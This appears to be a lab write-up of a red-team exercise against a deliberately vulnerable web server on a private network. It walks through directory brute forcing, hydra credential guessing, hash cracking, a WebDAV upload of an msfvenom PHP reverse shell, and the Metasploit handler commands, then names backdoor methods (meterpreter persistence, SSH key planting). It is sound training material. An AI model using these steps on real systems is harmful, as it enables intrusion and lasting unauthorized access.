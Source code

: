 ## Penetration Test Engagement in a Virtualized Environment

There are several steps involved with penetrating a network: Planning and Reconnaissance, Scanning, Exploitation, Post Exploitation, and Reporting. Once the network has been exploited there are a number of ways an attacker can abuse a system including stealing sensitive data, modifying data on the network, compromising the availability of data for a ransom and leaving a backdoor for perpetual access.

![RedTeam_NetworkDiagram](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/network_topology.JPG)

This document contains the following details:
- Description of the Topology
- Vulnerability Assessment
- Exploitation
- Post-Exploitation

### Description of Topology

In this lab, there were several machines on the network to be tested. A Windows VM which contained Hyper-V Manager served as the gateway to other nested VMs on the same network. A machine called Capstone served as a vulnerable Web server. Another VM on the network was an ELK server which is used to capture log data from the Capstone Machine. This data is then presented using the Kibana platform. This platform is useful for parsing logs, creating visual representations of data, and creating alerts. Lastly, for this engagement the actual attacking machine - Kali - was on the network itself as well. The Capstone VM is the proposed target for this engagement. The goal of infiltrating the Capstone machine was to set up a reverse shell in which the Kali attack machine could remotely access the system. The sole target that was infiltrated was the Capstone VM.

The configuration details of each machine may be found below.

| Hostname | Function       | IP Address               | Operating System |
|----------|----------------|--------------------------|------------------|
| Gateway  | Gateway        | 192.168.1.1              | Windows 10 Pro   |
| Kali     | Attack Machine | 192.168.1.90             | Linux            |
| ELK      | ELK Log Server | 192.168.1.100            | Linux            |
| CAPSTONE | Target Machine | 192.168.1.105            | Linux            |

### Vulnerability Assessment

The assessment uncovered the following critical vulnerabiliies in the target:

- Public Facing Sensitive Data: Files alluding to the existence of a secret folder within the web server
  - Impact: Gives attackers incentive to probe for more sensitive data
- Brute Force Attack and Hash cracking: Attackers can use programs to guess login credentials or decrypt password hashes to gain credentials
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server
- Web Misconfiguration: Security Controls are not in place to restrict who can upload files to the web server
  - Impact: Attackers can upload and plant malware to later be used on the server
- Local File Inclusion (LFI): Attackers can execute the planted malware file to potentially gain a reverse shell on the web server
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server       

### Recon

- Vulnerabilities were identified in the target by first site mapping the web server using a simple Firefox Browser and a Kali Linux tool called dirbuster. 
- Dirbuster is a java application designed to brute force directories on web applications and web servers. Performing this recon revealed an important URL on the server:"/webdav".

![dirbScan](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/dirbScan.JPG)

- Further "site-walking" was conducted by browsing directories in the web browser manually. 
- Through a public-facing sensitive data vulnerability, it was discovered that a secret directory hidden within the web server existed and was only accessible by employees.

![secretFolder](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/secretFolder.JPG)

## Exploitation

- After gathering useful information through recon, the findings prompted the idea of brute forcing employee credentials using the employees listed in the site’s “Meet Our Team” page. 
- The intention was to find credentials to access this secret folder. 
- This brute force attack was successfully executed using the Kali Linux tool “hydra” to obtain the credentials of employee Ashton.

![hydra](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/hydra.JPG)

- The discovered credentials were then used to log into the secret folder directory

![secretFolderLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderLogin.JPG) 

- The contents of the secret folder revealed a file called "connect_to_corp_server"

![secretFolder_Dir](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderDirContents.JPG) . 

- The next exploit was discovered in a file within the secret folder called "connect_to_corp_server". 
- This file contained the hash of the CEO’s (Ryan) password and instructions on how to access another hidden directory within the server called “webdav”. 
- The contents are displayed below: 
  - Note the network file share address is incorrect here. It should include the IP of our victim machine i.e. dav://192.168.1.105/webdav/  

![webDavInstructions](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavInstructions.JPG) 

- Ryan's hashed password was copied and input into an online tool called Crack Station. 
- The site uses rainbow tables to compare the input hash to precomputed hashes to "crack" the password. 
- This hash was successfully cracked and privileges were escalated further to the CEO's account. 

![crackstation](![CrackStationPassword](https://user-images.githubusercontent.com/94092268/185767062-adf60e79-6909-4b18-ab6b-170e1abd8066.JPG) 

- A login screen was prompted for credentials

![webDavLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavLogin.JPG) 

- Next, a payload was constructed using msfvenom to create the reverse shell php script to be exploited on the target. 

![msfvenomPayload]() 

- With the high-level access acquired from Ryan's credentials, a php script was uploaded to the web server to initiate the first step in establishing a reverse shell between the Capstone Server and the Kali attacking machine. 
- This is exploitation of the web misconfiguration

> - Click Folder at top of desktop, Click in search bar and type in network file share folder
> - dav://192.168.1.105/webdav/ , then enter ryan's credentials
> - Drag and drop reverse_shell.php file into network file share 

- The ability to upload a .php script is a web misconfiguration vulnerability that was exploited. 
- A general coding best practice is to never allow uploading to a web server unless that is apart of the web application's functionality to the client. 
- If uploading is necessary, uploaded data should undergo scrutiny before being allowed on the web server to ensure the data does not contain malware. 

![uploadShellScript]()

- Finally, a Local File Inclusion (LFI) vulnerability in the web server ensured the success of the reverse shell exploit. 
- Local File Inclusion vulnerabilities work by allowing an uploaded file or script to be executed on the server. 
- In this case, once the code is executed, it sends a meterpreter shell directly back to the attacking machine. 
- This was accomplished using Metasploit to turn on a listening port waiting for us to execute the newly uploaded php script on the target machine
> - msfconsole
> - use exploit/multi/handler
> - set payload php/meterpreter/reverse_tcp
> - set lhost 192.168.1.90
> - set lport 80
> - show options
> - exploit

- This code forces the target machine to send us a meterpreter shell connection. 

![msfsetup]()

- Now we execute the script on the victim machine by typing the file path in the folder explorer search bar
> - dav://192.168.1.105/webdav/reverse_shell.php 



![meterpreterShell](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/meterpreterShell.JPG) 

- Once inside, a more stable shell was first established using the command “shell” in the Meterpreter session. 
- Basic linux commands like “cd” and “find” were utilized to search for files containing the word “flag” in the title.

![flagComplete](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/flagComplete.JPG)

### Post Exploitation

There are several ways to reconnect to the target. First, if no backdoor has been established, an attacker would have to exploit the target again using the same steps as before - this is why it is imperative to document every step of the engagement in the event you must recreate a scenario. Creating backdoors is another way to reconnect to a target after being disconnected. This can be accomplished through many methods and it differs based on the OS of the target machine. 

In the case of the Meterpreter session, meterpreter has a script called “persistence.rb” to maintain an open backdoor even if the target system is rebooted. In the meterpreter command line prompt run the command “ run persistence -h”. It is important to note that this method requires no authentication so anyone with access to the port used for the exploit can access the machine. This is not ideal for the purposes of penetration testing unless it is done on a network that is not public-facing. 

Another technique to create a backdoor once inside of the Capstone VM is to use SSH keys; note this service was shown to be running on Port 22 in the nmap service scan so it can be used, however this would not work where this service is not enabled. Simply add your public SSH key into the “~/.ssh/authorized_keys” file to allow for remotely connecting via SSH. 

